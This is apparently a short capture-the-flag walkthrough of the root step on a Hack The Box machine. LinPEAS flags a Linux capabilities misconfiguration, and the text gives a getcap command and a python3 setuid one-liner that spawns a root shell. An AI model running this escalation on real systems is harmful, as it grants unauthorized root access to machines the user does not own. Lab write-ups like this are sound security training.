 # root

![](CUP-HTB-04.png)
- LinPEAS point towards a capabilities misconfiguration

![](CUP-HTB-05.png)

- PCAP article demonstrates how the misconfiguration could be exploited https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

````bash
getcap -r / 2>/dev/null 
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
````

![](CUP-HTB-06.gif)
